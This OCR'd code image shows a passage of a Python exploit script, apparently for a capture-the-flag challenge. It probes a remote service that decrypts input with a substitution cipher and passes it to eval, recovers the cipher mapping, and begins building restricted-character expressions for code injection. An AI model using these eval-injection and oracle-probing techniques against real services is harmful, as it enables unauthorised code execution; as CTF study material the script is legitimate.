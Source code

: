 ```python
        # if ciphertext c -> "'", then c + "[" + c becomes "'['" after unwarp, eval("'['") -> prints [
        resp = send_recv_str(c + "[" + c)
        if resp and "[" in resp and resp != "no galaxy":
            apost_cipher = c
            target.info(
                f"Found apostrophe ciphertext: {apost_cipher!r} (response={resp!r})"
            )
            break

    if not apost_cipher:
        target.failure("Could not find apostrophe ciphertext. Abort.")
        target.close()
        sys.exit(1)

    # build cipher -> plaintext mapping by probing apost_cipher + candidate + apost_cipher
    cipher_to_plain = {}
    for c in alphabet:
        resp = send_recv_str(apost_cipher + c + apost_cipher)
        # on success resp is printed plaintext character (single char)
        if resp and resp != "no galaxy":
            cipher_to_plain[c] = resp[0]
            target.debug(f"cipher {c!r} -> plain {cipher_to_plain[c]!r}")
        else:
            cipher_to_plain[c] = None

    # the candidate that maps to "'" will have produced no valid eval (None).
    # fill it explicitly using apost_cipher we discovered.
    cipher_to_plain[apost_cipher] = "'"
    target.info(f'Explicitly set cipher {apost_cipher!r} -> plain "\'"')

    # invert mapping to get plaintext -> ciphertext
    plain_to_cipher = {}
    for c, pch in cipher_to_plain.items():
        if pch is not None:
            # if multiple c map to same pch (shouldn't), last one wins — but mapping is bijection here
            plain_to_cipher[pch] = c

    # sanity check
    missing = [ch for ch in alphabet if ch not in plain_to_cipher]
    if missing:
        target.warning(f"Missing plaintext->cipher mappings for: {missing}")
    else:
        target.info("Recovered full plaintext->cipher mapping for a-z and apostrophe.")

    # helper to encrypt plaintext expression using mapping
    def encrypt_plaintext(expr):
        out = []
        for ch in expr:
            if ch in plain_to_cipher:
                out.append(plain_to_cipher[ch])
            else:
                out.append(ch)
        return "".join(out)

    # negative index expression using allowed chars only
    def neg_expr(n):
        """
        Build an expression that evaluates to -n using only allowed characters.
        Use ~('a'<'b') == -2 and ~('a'<'a') == -1, combine with +.
        """
        q = n // 2
```